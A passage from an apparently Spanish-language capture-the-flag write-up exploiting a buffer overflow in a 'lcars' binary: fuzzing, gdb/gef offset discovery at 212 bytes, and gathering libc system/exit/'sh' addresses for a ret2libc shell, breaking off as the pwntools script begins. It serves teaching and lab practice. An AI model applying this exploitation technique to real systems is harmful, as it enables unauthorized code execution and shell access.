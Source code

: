 ```console
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:
# Todas estas opciones piden strings.

└─$ python3 -c "print('A'* 300)";
# Pruebo a meter esto en todos lados, en la funcion 4 (security) da "segmentation fault" o sea hay un buffer 
# overflow

Enter Bridge Access Code: picarda1
LCARS Bridge Secondary Controls -- Main Menu:
Waiting for input: 4

Disable Security Force Fields
Enter Security Override: AAAAAAAAAAAAAAAAAAAAAAAAAA.... # -> seg fault

└─$ gdb ./lcars
gef➤  pattern create 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka... # Creamos un patrón reconocible

gef➤ r 
...
Enter Security Override: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka...

$esp   : 0xffffd0c0  →  "eaacfaacgaachaaciaacjaac..."   # Inicio de la pila
$eip   : 0x63616164 ("daac"?) # final de la pila, a la direccion a la que tiene que saltar
gef➤  pattern offset $eip
[+] Found at offset 212 (little-endian search) likely

gef➤  x $eip
0x63616164:	Cannot access memory at address 0x63616164   # esta memoria no existe por eso corrompe el programa
gef➤  x/16wx $esp # Esto al estar despues del eip es la pila de la siguiente funcion (0xffffd0bc)
0xffffd0c0:		0x63616166	0x63616167	0x63616168

# Si le pasamos al programa el resultado de esto: python3 -c "print('A'* 212 + 'B'*4)" el eip será BBBB
```

Vamos a hacer un ret2libc que aprovecha las funciones del propio binario para entablarnos una consola: system("sh")  
Las direcciones las tenemos que sacar de la máquina victima.  
```console
www-data@enterprise:/var/www/html/files$ /usr/bin/gdb /bin/lcars
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e4c060 <system>
(gdb) p &exit
$2 = (<text variable, no debug info> *) 0xf7e3faf0 <exit>

(gdb) disass main
(gdb) b *0x56555c9e  # de las primeras lineas de main
(gdb) r
(gdb) find &system,+9999999,"sh"
0xf7f6ddd5
```
Quedando el exploit tal que así (como en la máquina victima hay python3 y no python hay mucho problema con los bits, asi que hay que hacerlo remoto)
```python
from pwn import *
```